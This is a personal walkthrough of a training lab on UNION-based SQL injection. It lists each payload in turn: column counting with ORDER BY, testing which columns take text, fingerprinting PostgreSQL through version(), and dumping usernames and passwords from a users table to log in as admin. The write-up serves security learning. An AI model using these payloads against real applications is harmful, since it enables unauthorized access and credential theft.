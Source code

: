 # Lab 09 – SQLi (UNION): Retrieving data from other tables

**Goal:**  
Use a UNION-based SQL injection to find the database type/version, confirm column count & types, then retrieve data from another table (the `users` table) and use it to log in.

---

## What I did (step-by-step, exactly how I did it)
- I tried this injection `'--` in the category param to confirm there was a vuln.
- **Find column count (ORDER BY)**  
`' ORDER BY 2--` -> 200 OK 
`' ORDER BY 3--` -> error  
there are **2 columns**
- check which column types accept text
tested a simple UNION with strings:
     ```
     ' UNION SELECT 'a','b'-- 
     ```
worked, so text is allowed.
- figure out DB type / version  
tried DB-specific version payloads:
     ```
     ' UNION SELECT @@version, NULL--    # MySQL / MSSQL style -> error
     ' UNION SELECT version(), NULL--    # PostgreSQL style -> 200 OK
     ```
now i know its postgreSQL: PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4)
- dump the users table
the lab said the DB has a `users` table with `username` and `password` columns, so I went straight for it:
     ```
     ' UNION SELECT username, password FROM users-- 
     ```
this returned rows including the admin credentials.

- logged in

## Notes / gotchas (for me later)
- `ORDER BY` is a fast way to get column count.  
- `UNION SELECT 'a','b'--` is quick to test whether text will display.  
- If `@@version` errors but `version()` works -> you’re probably on PostgreSQL.  
- If the lab says a table named `users` exists, use it directly (saves time).  


